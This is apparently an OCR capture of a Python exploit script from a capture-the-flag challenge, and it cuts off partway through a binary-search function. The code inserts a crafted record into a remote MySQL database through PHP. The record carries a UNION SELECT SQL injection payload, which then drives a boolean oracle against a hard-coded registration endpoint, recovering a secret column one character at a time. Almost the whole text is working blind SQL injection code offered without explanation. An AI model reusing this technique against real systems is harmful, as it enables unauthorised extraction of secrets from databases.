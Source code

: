 ```Python
#!/usr/bin/python3

import sys
import string
from subprocess import run, PIPE
import requests


CHARS = sorted(string.printable, key = lambda c: ord(c))
URL = 'http://31.22.123.49:1908'
USERNAME = 'fqertyuiop'
COUNT = 1337

def remote_add(payload):
    user = '{}_{}'.format(USERNAME, COUNT)
    php_code = '''
        $db_host="tree.minimalblue.com";
        $db_name="tree";
        $db_user="ctf-user";
        $db_pass="ctf-pwd";
        $pdo = new PDO("mysql:host=$db_host;dbname=$db_name", $db_user, $db_pass);
        $stmt = $pdo->prepare("INSERT INTO members(id, username, password) VALUES ('QUERY', 'USER', 'f7fbba6e0636f890e56fbbf3283e524c6fa3204ae298382d624741d0dc6638326e282c41be5e4254d8820772c5518a2c5a8c0c7f7eda19594a7eb539453e1ed7')");
        $stmt->execute();
    '''.replace('QUERY', payload).replace('USER', user)

    run(['php', '-r', php_code], stdout=PIPE)


def oracle(pos, guess):
    payload = '-337 UNION SELECT IF({}>=(SELECT ORD(MID(s3cr3t, {}, 1)) from s3cr3t_st0r4g3 LIMIT 1), 1, 0)'.format(guess, pos)
    
    remote_add(payload)
    
    s = requests.Session()
    r = s.post('{}/internal/register.php'.format(URL), {
            'params[username]': '{}_{}'.format(USERNAME, COUNT),
            'params[password]': 'foo',
            'params[auto_login]': 'on',
            'db_host': 'tree.minimalblue.com',
            'db_name': 'tree'
        }, allow_redirects=True)

    return 'Member Search' in r.text


def search_bin(pos):
    global COUNT

    l = 0
    h = len(CHARS)-1

    while l != h:
        m = (l + h) // 2
        if oracle(pos, ord(CHARS[m])):
            h = m
        else:
            l = m + 1

        COUNT += 1

```